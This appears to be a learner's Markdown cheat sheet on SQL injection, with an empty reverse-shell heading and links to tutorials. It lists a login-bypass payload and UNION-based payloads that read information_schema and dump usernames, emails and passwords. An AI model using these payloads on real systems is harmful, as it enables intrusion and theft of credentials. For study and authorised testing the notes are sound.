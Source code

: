 # SQL Injection


## Basic injection
`1' or 1 = 1 #`

- `1'`: can be anything with ending quote
- `or` : so we could write success query.
- `1 = 1`: so its always true
  - String would be quoted, 1 is integer so we dont quote
- `#`: comment anything after this may be there in code





### GOTCHA

-  `order by`: in order to understand field count.
-   `limit 1`: useful to bypass `count === 1`


### Exploit TIPS

    - Extracting Coloumns -> 1' union <SELECT QUERY> #
      - 1' UNION SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE tables_name = 'users' #
    - Extracting Data -> 1' union <SELECT QUERY> #\
      - 1' union select 1, username, 3 from db.tables #
      - 1' union select 1, concat(field1, 0x3a, field2, 0x3a, field3), from db.tables #
        - filed1,2,3 could be likes of username, email, pass
        - 0x3a is hexcode for `:`

### Reverse shell

- 


### TIPS

    - SQL query vs Web APP Query: this can mean if its vulnerable to sql injection or not.
    - concept is same for any database engine but example works for mysql.

### GOOD READS

- [Portswinger Academy](https://portswigger.net/web-security/sql-injection)
- [pentest moneky Cheatsheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
